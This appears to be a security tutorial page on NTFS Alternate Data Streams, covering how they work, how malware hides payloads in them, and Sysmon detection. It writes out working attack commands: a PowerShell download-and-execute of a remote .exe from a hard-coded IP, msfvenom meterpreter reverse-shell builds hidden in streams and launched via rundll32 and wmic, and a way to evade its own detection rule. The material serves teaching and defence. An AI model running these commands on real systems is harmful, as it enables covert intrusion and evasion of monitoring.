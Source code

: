 ## Alternate Data Stream (ADS)

it's introduced with Windows NT 3.1, it's file attribute in NTFS which contains meta data about files

Any file has Data stream which contains the actual data of the file, any other Data stream is called **Alternate** so it's Alternate Data stream, the ADS size is not added to the file size and it's hidden, could only be viewed using some commands

```
dir /R  or dir /R [filename]
```

```powershell
Get-Item -Path [filepath] -Stream *
```
>Alternate streams are not listed in Windows Explorer, and their size is not included in the file’s size.
>When the file is copied or moved to another file system without ADS support the user is warned that alternate data streams cannot be preserved.
>
>-- Andrea fortuna

for any file there is fully qualified file name

`<filename>:<streamname>:<streamtype>`



one of the default ADS is Zone.Identifier which tells the URL which is used to download the file, it's supported since Win XP sp2
to get the URL of file use this command

```powershell
Get-Content -Path [filepath] -Stream Zone.Identifier
```

```powershell
notepad.exe file.txt:Zone.Identifier
```

![Zone Identifier](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/ADS/Misc/ZoneIdentifier.jpg)

- Zone.Identifer is not set when copying file from USB driver or downloading it from torrent -- **I tested it**

- some old browsers just place zone id in the Zone.Identifier ADS
- Any Application can set ADS, many Applications do
- Sysinternal has tool called streams that check for ADS



**to create ADS**

```powershell
set-content -Path {path to the file} - Stream {name of the stream} -Value {Value}
```
to remove ADS
```powershell
Remove-Item –Path {path to the file} –Stream {name of the stream}
```



## ADS in Malwares

ADS is used a lot in malwares because it's not listed in windows explorer 

**Example 1**

```powershell
set-content -path ADS.txt -Stream tDS.js -Value "a = new ActiveXObject(`'Wscript.Shell`');cmd = `"powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://18.185.124.52/ransinvoke.exe')).EntryPoint.Invoke(`$Null,`$Null))"";a.Run(cmd,0);"
```

the above example will create ADS called tDS .js ".js is very important so we can run it"
then for run this script

```powershell
wscript.exe ADS.txt:tDS.js
```

the script will download *ransinvoke.exe* from the remote server then will invoke it directly in the memory
ransinvoke.exe is a .NET application, so it could run directly in memory using PowerShell.
for non .net there is more complex code to run it directly in memory [for Shell code](https://github.com/rapid7/rex-powershell/blob/master/data/templates/to_mem_pshreflection.ps1.template)



**Example 2**

```powershell
findstr.exe /V /L NotHere C:\Users\Noname\Desktop\Attack.js > C:\Users\Noname\Desktop\ADS.txt:Attack.js
```

to execute

```powershell
wscript.exe ADS.txt:Attack.js
```

*Note: Run findstr from cmd not PowerShell and set **full path** not relative path*



**Example 3**

Create dll from MSF venom

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=4000 -f dll > /var/www/html/evil.dll
```
Create the ADS
```
type C:\Users\Noname\Desktop\Evil.dll > C:\Users\Noname\Desktop\ADS.txt:evil.dll
```

*run type from cmd not PowerShell and give it full path for the dll not relative path*

Execute the ADS

```powershell
rundll32 c:\Users\Noname\Desktop\ADS.txt:shell.dll,DllMain
```



**Example 4**

Create exe from MSF venom

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=4000 -f exe > /var/www/html/shell.exe
```

Create ADS

```powershell
makecab c:\Users\Noname\Desktop\shell.exe c:\Users\Noname\Desktop\shell.cab
extrac32 c:\Users\Noname\Desktop\shell.cab c:\Users\Noname\Desktop\ADS.txt:shell.exe
```

Execute the ADS

```powershell
wmic process call create "C:\Users\Noname\Desktop\ADS.txt:shell.exe"
```

of course it's not only about Metasploit, you can do this with any executable


*you can check Link 7 for more ADS create/execute commands*

 

### ADS Monitoring

Using sysmon we can monitor Adding files to streams using FileCreateStreamHash

```xml
<FileCreateStreamHash onmatch="include">
			<TargetFilename condition="contains">Downloads</TargetFilename> 
			<TargetFilename condition="contains">Temp\7z</TargetFilename>  
			<TargetFilename condition="contains">Startup</TargetFilename> 
			<TargetFilename condition="end with">.bat</TargetFilename> 
			<TargetFilename condition="end with">.cmd</TargetFilename> 
			<TargetFilename condition="end with">.hta</TargetFilename> 
			<TargetFilename condition="end with">.lnk</TargetFilename> 
			<TargetFilename condition="end with">.ps1</TargetFilename> 
			<TargetFilename condition="end with">.ps2</TargetFilename> 
			<TargetFilename condition="end with">.reg</TargetFilename> 
			<TargetFilename condition="end with">.jse</TargetFilename>
			<TargetFilename condition="end with">.vb</TargetFilename>
			<TargetFilename condition="end with">.vbe</TargetFilename> 
			<TargetFilename condition="end with">.vbs</TargetFilename> 
			<TargetFilename condition="end with">.exe</TargetFilename>
    		<TargetFilename condition="end with">.dll</TargetFilename>
    		<TargetFilename condition="end with">.js</TargetFilename>
		</FileCreateStreamHash>
```

*I can create ADS for executable file but without set the extension to exe and use wmic to create the process, like that I will bypass the above rule*

```powershell
makecab "c:\Users\Noname\Desktop\svchost.exe" "c:\Users\Noname\Desktop\svchost.cab"
extrac32 "c:\Users\Noname\Desktop\svchost.cab" "c:\Users\Noname\Desktop\ADS.txt:svchost"
wmic process call create "C:\Users\Noname\Desktop\ADS.txt:svchost"
```

![wmicProcessCreate](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/ADS/Misc/wmicProcessCreate.JPG)

to overcome this problem we can monitor creation for all streams and exclude Zone.Identifier and other legitimate ADS , but of course some one could name his malicious stream "Zone.Identifier"

### Reference

[Link1]: https://www.varonis.com/blog/the-malware-hiding-in-your-windows-system32-folder-more-alternate-data-streams-and-rundll32/	"Tricks to run executables in ADS"



[Link2]: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/	"Tricks to run executables in ADS"



[Link3]: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/	"Tricks to run executables in ADS Part-2"



[Link4]: https://www.andreafortuna.org/2017/10/11/some-thoughts-about-ntfs-filesystem/	"Check ADs Part"



[Link5]: https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/	"Explanation for ADS"



[Link6]: https://cyberforensicator.com/2018/06/26/where-did-it-come-from-forensic-analysis-of-zone-identifier/	"Zone Identifier"



[Link7]: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f	"a lot of Command for creating and executing ADS"



[Link 8]: https://github.com/enigma0x3/Invoke-AltDSBackdoor/blob/master/Invoke-ADSBackdoor.ps1	"Run shell code through ADS"

